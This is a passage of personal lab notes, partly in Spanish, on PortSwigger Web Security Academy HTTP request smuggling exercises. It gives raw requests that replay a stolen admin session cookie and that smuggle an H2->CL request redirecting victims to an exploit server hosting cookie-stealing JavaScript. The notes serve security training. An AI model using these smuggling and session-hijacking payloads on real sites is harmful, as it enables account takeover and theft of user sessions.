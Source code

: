 > Note: Paths in both POST and GET requests points to non-existent endpoints. This help to _**identify**_ when not getting a 404 response, the response is from victim user captured request. **Remember** to terminate the smuggled request properly by including the sequence `\r\n\r\n` after the Host header.

![[Pasted image 20250219123140.png]]

> Copy stolen session cookie value into new **http/2** GET request to the admin panel.

```js
GET /admin HTTP/2
Host: TARGET.web-security-academy.net
Cookie: session='VictimAdminSessionCookieValue'
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
```

![[Pasted image 20250219123223.png]]

### LAB: H2->CL - `Admin Panel` `HTTP/2 TE desync v10a h2path` `Open redirect`

![](Pasted%20image%2020250224132212.png)

* La parte vulnerable de la aplicación al open redirect está dada por el endpoint `/resources`
* Para este caso debemos mantener la request `POST / HTTP/2` como legitima con HTTP/2 y el `content-length: 0` en 0 importante en `0`
* Y en el exploit server alojamos la carga util JS que queremos ejecutar.  `Para la resolucion del lab un simple alert(document.cookie), para el BSCP un stole de cookie.`

```js
POST / HTTP/2
Host: ID-LAB.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: ID-EXPLOIT.net
Content-Length: 5

x=1

\r\n\r\n
```

